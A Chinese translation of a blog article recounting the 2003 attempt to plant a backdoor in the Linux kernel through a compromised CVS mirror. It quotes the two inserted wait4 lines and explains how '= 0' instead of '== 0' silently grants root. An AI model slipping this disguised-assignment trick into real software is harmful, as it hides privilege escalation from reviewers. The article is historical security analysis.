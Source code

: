 ```yaml
---
author: ''
categories: 观点
comments_data: []
count:
  commentnum: 0
  favtimes: 1
  likes: 1
  sharetimes: 0
  viewnum: 4337
date: '2013-10-14 21:34:00'
editorchoice: false
excerpt: "最近Josh写了一篇文章，讲述2006年Debian Linux中出现的一系列安全bug，探讨了这些所谓bug是否是NSA植入的后门。（最后他作出结论：可能不是）\r\n今天我想讲述的是另外一个事件2003年某些人试图在Linux内核中植入后门
  \ ..."
fromurl: ''
id: 2095
islctt: true
banner_img: /data/attachment/album/201610/12/095124vr9cmdgilii8rrwr.png
permalink: /article-2095-1.html
index_img: https://api.mmeiblog.cn/rd_tz/
related: []
reviewer: ''
selector: ''
summary: "最近Josh写了一篇文章，讲述2006年Debian Linux中出现的一系列安全bug，探讨了这些所谓bug是否是NSA植入的后门。（最后他作出结论：可能不是）\r\n今天我想讲述的是另外一个事件2003年某些人试图在Linux内核中植入后门
  \ ..."
tags:
- Debian
- Linux
thumb: false
title: 揭秘！：2003年Linux后门事件
titleindex_img: false
translator: tinyeyeser
updated: '2013-10-14 21:34:00'
---
```


最近Josh写了[一篇文章](https://freedom-to-tinker.com/blog/kroll/software-transparency-debian-openssl-bug/)，讲述2006年Debian Linux中出现的一系列安全bug，探讨了这些所谓bug是否是NSA植入的后门。（最后他作出结论：可能不是）


今天我想讲述的是另外一个[事件](https://lwn.net/Articles/57135/)——2003年某些人试图在Linux内核中植入后门的故事。这次事件很明确，的确有人想植入后门，只是我们不知道此人是谁，而且，也许永远都不会知道了。


时间回到2003年，当时Linux使用一套叫做BitKeeper的系统来存储Linux源代码的主拷贝。如果开发者想要提交一份针对源码的修改，就必须经过一套严格的审核过程，以决定这份修改是否能够合并进主拷贝。每个针对主拷贝的修改都必须附带一段说明，说明当中都包括了一个记录相应审核过程的链接。


但是有些人不喜欢BitKeeper，于是这些开发者们就用另一套叫做CVS的系统（译注：Linus一直拒绝使用CVS，后来不得已使用了BitKeeper，并在因某些原因BitKeeper不再让开源社区免费使用后，花了不到一个月的时间自己开发了GIT的原型，并且投入了使用），维护了一份Linux源代码的拷贝，这样他们就能随时按自己喜欢的方式获取Linux源代码了。CVS中的代码其实就是直接克隆了BitKeeper中的代码。


但是在2003年11月5日的时候，Larry McVoy[发现](https://lwn.net/Articles/57137/)，CVS中的代码拷贝有一处改动并没有包含记录审核的链接。调查显示，这一处改动由陌生人添加，而且从未经过审核，不仅如此，在BitKeeper仓库的主拷贝中，这一处改动竟然压根就不存在。经过进一步调查后，可以明确，显然有人入侵了CVS的服务器并植入了此处改动。


神秘人物究竟做了哪些改动？这才是真正有趣的地方。改动修改的是Linux中一个叫wait4的函数，程序可以使用该函数进行挂起操作，以等待某些事件的触发。神秘人物添加的，就是下面这两行代码：


**if ((options == (\_\_WCLONE|\_\_WALL)) && (current->uid = 0))**


 **retval = -EINVAL;**


[有C语言编程经验的人也许会问：这两行代码有什么特别的？请接着往下看]


猛地一看，好像这两行代码就是一段正常的错误校验代码，当wait4函数被某种文档中禁止的方式调用时，wait4就返回一个错误代码。但是一个真正认真的程序猿立刻就会发现代码中的问题，注意看在第一行末尾，“**= 0**”应该是“**== 0**”才对。是的，“== 0”在这里才是判断当前运行代码的用户ID(current->uid)是否等于0，而“= 0”不但无法判断，反而修改了用户ID的值，即，**将其值赋值为0**。


将用户ID设置为0，这是一个很严重的问题，因为ID为0的用户正是“root”，而root账户可以在系统中做任何事情，包括访问所有数据、修改任意代码的行为，能够危及到整个系统各个部分的安全。因此，这段代码的影响就是通过特殊手段使得任何调用wait4函数的软件都拥有了root权限。换句话说，这就是一个典型的后门。


客观地说，这一招很漂亮。看起来就像是无关紧要的错误校验，但真实身份却是一个后门。而且它混在其他经过审核的代码中间，几乎规避了所有审核可能会注意到自己的可能性。


但是它终究还是失败了，因为Linux小组有足够强的责任心，注意到了CVS仓库中的这段代码没有经过常规审核。Linux还是略胜一筹。


这是NSA干的吗？只能说有可能。因为有太多拥有技术能力和动机的人有可能实施了此次攻击。那么，到底是谁呢？除非某些人主动承认，又或者发现新的确凿证据，否则，我们将永远不会知道。


 


via: <https://freedom-to-tinker.com/blog/felten/the-linux-backdoor-attempt-of-2003/>


本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创翻译，[Linux中国](http://linux.cn/) 荣誉推出


译者：[tinyeyeser](https://github.com/tinyeyeser) 校对：[wxy](https://github.com/wxy)